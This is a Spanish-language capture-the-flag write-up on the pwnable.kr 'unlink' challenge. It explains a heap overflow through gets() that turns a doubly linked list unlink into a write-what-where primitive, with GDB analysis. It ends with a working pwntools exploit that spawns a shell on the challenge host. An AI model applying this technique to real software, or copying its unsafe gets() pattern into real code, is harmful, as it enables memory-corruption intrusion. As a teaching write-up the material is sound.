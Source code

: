 ```yaml
---
layout: post
title: pwnable.kr unlink - Heap Overflow via Double-Linked list y Write-What-Where
author: c4rta
date: 2023-04-16
categories: [Explotacion binaria]
tags: [Heap, Double-linked list, Write-What-Where]
cover: /imgs/unlink/waifu.gif
---
```

Explotaremos un Heap Overflow en una lista doblemente enlazada con una condicion Write-What-Where que nos permitira escribir la direccion de la funcion shell() en A->buf

Este es un desafio de los gordos, como ayuda, te dejo este gran writeup el cual me ayudo bastante a entender que pedo: [picale aqui](https://youtu.be/81_BMRXDw3c)

## Analisis

Se nos proporciona el codigo fuente del programa, donde primeramente se esta definiendo una estructura llamada ```OBJ```:

```c
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;
```

Primero se definen dos punteros a la estructura ```tagOBJ``` llamados ```fd``` y ```bk``` y un arreglo de char (que seria el buffer) con una longitud de 8 bytes, los punteros ```fd``` y ```bk``` son usados normalmente para implementar una lista doblemente enlazada, y para eso esta esta funcion:

```c
void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
```

Donde el puntero ```fd``` apunta al siguiente elemento, y ```bk``` apunta al elemento anterior.

Codigo completo:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}
```
Se esta haciendo basicamente esto:

- Crea tres nodos (A, B y C)
- Se crea una lista doblemente enlazada con A en primer lugar, B en segundo y C en tercero.
- Muestra la dirección donde el puntero ```&A``` cuando mantiene en el stack como una variable local
- Muestra la dirección en la que se guarda el nodo A en el heap.
- Obtiene un imput el cual puede sobreescribir la memoria que comienza con ```A->buf``` en el heap
- Llama a unlink con el nodo B

### Vulnerabilidad

En la funcion main se esta haciendo un llamado a la funcion gets: ```gets(A->buf);```, donde se esta ocasionando un heap overflow a partir de del nodo A (```A->buf```).

Debido a que ocurrio un heap overflow y el programa soporta una operacion de desvinculacion en el nodo B:
```c
FD->bk=BK;
BK->fd=FD;
```
Debemos de explotar la funcion ```unlink```, donde podemos sobreescribir el ```fd``` y el ```bk``` del nodo B, cuando el nodo B se desvincula, ocurre que:

- El nodo apuntado por B->fd(antes C) cambiará a B->bk(antes A)
- El nodo apuntado por B->bk(antes A) cambiará a B->fd(antes C)

**Metodo de explotacion 1 (incorrecto)**

Podriamos hacer que B->bk apunte a una direccion de ```ebp``` y despues sobrescribirlo con la dirección de la funcion ```shell``` en ```B->fd```

Pero no se puede, si ponemos la direccion de la funcion ```shell()``` en ```B->fd``` o ```B->bk```, no se ve a poder ejecutar por que cuando se ejecute ```BK->fd=FD```, la funcion ```unlink``` tratara de escribir en la misma direccion.

Debido a esto, debemos de hacer que ```B->fd``` o ```B->bk``` siempre apunten a una direccion de memoria con permisos de escritura, donde debemos de tener en cuenta que ```B->bk``` se escribira 4 bytes despues de la direccion de ```B->fd```

## Analisis con GDB

En las ultimas linea de la funcion main, cuando se hace el llamado de ```unlink```:

![](/imgs/unlink/unlink1.png)

Tenemos algo interesante, El contenido en la dirección ```ebp-4``` se copia en ```ecx``` y antes de que devuelva el valor ```ecx-4``` se asigna al ```esp```, entonces el programa regresará a la dirección que este en ```ecx-4```.

## Write-What-Where

Una vez ejecutando el programa y pasandole varios bytes hasta que ocurra el overflow, podemos ver que tenemos el control de ```eax``` y ```edx```:

![](/imgs/unlink/unlink2.png)

Y si continuamos la ejecucion del programa, lo que tiene el ```eip``` es la direccion ```0x8048521``` y que ejecuta la intruccion: ```DWORD PTR [eax+0x4], edx```, pero como ```edx``` tiene una direccion invalida entonces va a petar. Y aqui es cuando la instruccion ```mov``` nos proporciona la condicion ```write-what-where```, asi que con esta condicion podemos sobreescribir el ```ebp-0x4``` de cuando de hace el llamado a la funcion ```unlink``` en la funcion ```main```.

Y esto es bastante interesante por que si sobrescribimos el valor de ```ebp-4``` con una dirección del heap, entonces el flujo de ejecución ira a lo que esté escrito 4 bytes antes de lo que apunta esa dirección, y como tenemos control total sobre el heap, podemos escribir la dirección de la funcion ```shell()``` en esa parte.

## Explotacion

Entonces tenemos que:

- Sobreecribiremos ```B->bk``` con la dirección ```ebp-4```
- Agregar 0x10 al stack para llegar al valor que queremos
- Hacer que ```B->fd``` sea igual a una dirección del heap que podamos controlar, más 4 bytes, y podemos usar ```A->buf```
- Y por ultimo escribir la dirección de la función ```shell()``` en A->buf.

### Exploit

```python
from pwn import *

s = ssh(user='unlink', host='pwnable.kr', port=2222, password='guest')
p = s.process('/home/unlink/unlink')

p.recvuntil(': ')
stack = int(p.recv(10), 16)

p.recvuntil(': ')
heap = int(p.recv(10), 16)

p.recv()

shell_addr = 0x080484eb
buf = heap+8
ebp = stack+20

payload = p32(shell_addr) # A->buf
payload += b'A'*12
payload += p32(buf+4) # B->fd
payload += p32(ebp-4) # B->bk

p.sendline(payload)
p.interactive()
```

![](/imgs/unlink/exploit.png)

Eso ha sido todo, gracias por leer ❤